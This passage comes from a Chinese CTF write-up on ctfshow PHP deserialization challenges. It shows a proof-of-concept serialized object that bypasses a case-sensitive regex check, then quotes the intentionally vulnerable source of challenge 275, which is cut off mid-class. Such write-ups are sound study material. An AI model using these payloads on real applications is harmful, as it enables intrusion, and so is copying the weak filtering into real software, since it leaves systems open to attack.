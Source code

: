 只有一个检测点：
正则匹配：传入的参数不能有`ctfshow`，但这是我们的类名，是肯定不能省的
这里考点就是一个 **php的特性**：

- 函数名和类名大小写不敏感
- 变量名大小写敏感

poc：（不传username或者password也行，原本定义的就符合条件了）

```php
<?php

class CtfShow{
    public $username='xxxxxx';
    public $password='xxxxxx';
}
$a = new CtfShow();
echo serialize($a);

# O:7:"CtfShow":2:{s:8:"username";s:6:"xxxxxx";s:8:"password";s:6:"xxxxxx";}
```

$cs是用的伪协议php://input赋值的，把payload post过去就行

![](https://i.loli.net/2021/10/18/3rpULTZAK4I21ig.png)



## 275 rce绕过

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-08 19:13:36
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-08 20:08:07
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


highlight_file(__FILE__);

class filter{
    public $filename;
    public $filecontent;
    public $evilfile=false;

    public function __construct($f,$fn){
        $this->filename=$f;
        $this->filecontent=$fn;
    }
    public function checkevil(){
        if(preg_match('/php|\.\./i', $this->filename)){
            $this->evilfile=true;
        }
        if(preg_match('/flag/i', $this->filecontent)){
            $this->evilfile=true;
        }
        return $this->evilfile;
    }
    public function __destruct(){
```